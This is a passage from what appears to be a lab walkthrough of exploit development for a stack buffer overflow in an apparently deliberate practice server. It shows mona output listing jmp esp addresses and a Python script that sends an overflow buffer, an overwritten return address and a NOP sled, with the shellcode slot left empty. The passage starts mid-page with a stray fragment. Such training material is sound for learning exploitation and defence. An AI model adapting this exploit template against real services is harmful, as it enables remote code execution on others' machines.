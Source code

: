 got unmodified status.

### payload structure

Your payload must be in this order: `offset + retn + payload` ← the EIP still needs to be overwritten predictively.

### jmp point address

`!mona jmp -r esp -cpb "\x00"`

```sh
625014DF     0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
625014EB     0x625014eb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
625014F7     0x625014f7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
62501503     0x62501503 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
6250150F     0x6250150f : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
6250151B     0x6250151b : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
62501527     0x62501527 : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
62501533     0x62501533 : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
62501535     0x62501535 : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Downloads\essfunc.dll)
0BADF00D       Found a total of 9 pointers
```

I pick `0x62 50 14 f7` = `\xf7\x14\x50\x62`

our payload script looks like this:

```python
#!/usr/bin/env python3

import socket

ip = "172.16.2.125"
port = 9999

offset = 6108
overflow = "A" * offset
retn = "\xf7\x14\x50\x62" # found using mona
padding = "\x90" * 16
payload = (

)
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```